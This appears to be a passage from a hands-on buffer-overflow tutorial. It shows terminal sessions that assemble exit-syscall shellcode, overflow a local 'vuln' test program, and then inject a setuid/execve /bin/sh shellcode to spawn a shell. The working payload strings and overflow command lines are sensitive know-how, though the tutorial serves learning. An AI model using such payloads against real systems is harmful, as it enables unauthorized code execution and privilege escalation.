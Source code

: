     tim@blue:~/devel/buffer_overflows_101/shell/exit$ cat exit2.asm
    SEGMENT.text
            xor eax, eax    ; zeros eax
            mov al, 1       ; put 1 in the lowest 8bits of eax
            xor ebx, ebx    ; zeros ebx
            mov bl, 123     ; put 123 in the lowest 8bits of ebx
            int 80h         ; int 80 (enter syscall)

    tim@blue:~/devel/buffer_overflows_101/shell/exit$ nasm -felf exit2.asm
    tim@blue:~/devel/buffer_overflows_101/shell/exit$ gcc exit2.o -o exit2 -nostartfiles -nostdlib
    /usr/bin/ld: warning: cannot find entry symbol _start; defaulting to 0000000008048060
    tim@blue:~/devel/buffer_overflows_101/shell/exit$ ./exit2
    tim@blue:~/devel/buffer_overflows_101/shell/exit$ echo $?
    123
    tim@blue:~/devel/buffer_overflows_101/shell/exit$ objdump -d exit2

    exit2:     file format elf32-i386

    Disassembly of section .text:

    08048060 <segment.text>:
     8048060:       31 c0                   xor    %eax,%eax
     8048062:       b0 01                   mov    $0x1,%al
     8048064:       31 db                   xor    %ebx,%ebx
     8048066:       b3 7b                   mov    $0x7b,%bl
     8048068:       cd 80                   int    $0x80

So our shellcode is now "\\x31\\xc0\\xb0\\x01\\x31\\xdb\\x3b\\x7b\\xcd\\x80" - lets test it!

So we originally had 260 bytes of overflow then EIP, and our shellcode is 10 bytes...so we want 10 bytes of shellcode followed by 250 of stuff and finally EIP on the end.

    tim@blue:~/devel/buffer_overflows_101$ ./vuln `perl -e 'print "\\x31\\xc0\\xb0\\x01\\x31\\xdb\\xb3\\x7b\\xcd\\x80" . "A"x250 . "\\x88\\xf8\\xff\\xbf"'`
    before call
    argument was: 1��1۳{̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
    tim@blue:~/devel/buffer_overflows_101$ echo $?
    123
    tim@blue:~/devel/buffer_overflows_101$

__w00p!!__

OK so we're not 260 bytes of machine code to play with - what can we do?

A quick look at mil0worm (http://www.milw0rm.com/shellcode/2042) nice setuid and execve /bin/sh in 30 bytes.

    "\\x6a\\x17\\x58\\x31\\xdb\\xcd\\x80\\x6a\\x0b\\x58\\x99\\x52\\x68//sh\\x68/bin\\x89\\xe3\\x52\\x53\\x89\\xe1\\xcd\\x80"

See here we actually create the string on the stack - so our code is truly position independent (without playing call-ret games). So lets give it a go... (260-30=230)

    tim@blue:~/devel/buffer_overflows_101$ ./vuln `perl -e 'print "\\x6a\\x17\\x58\\x31\\xdb\\xcd\\x80\\x6a\\x0b\\x58\\x99\\x52\\x68//sh\\x68/bin\\x89\\xe3\\x52\\x53\\x89\\xe1\\xcd\\x80" . "A"x230 . "\\x88\\xf8\\xff\\xbf"'`
    before call
    argument was: jX1�̀j
                         X�Rh//shh/bin��RS��̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
    $ id
    uid=1001(tim) gid=1001(tim) groups=110(admin),1001(tim)
    $ exit
    tim@blue:~/devel/buffer_overflows_101$
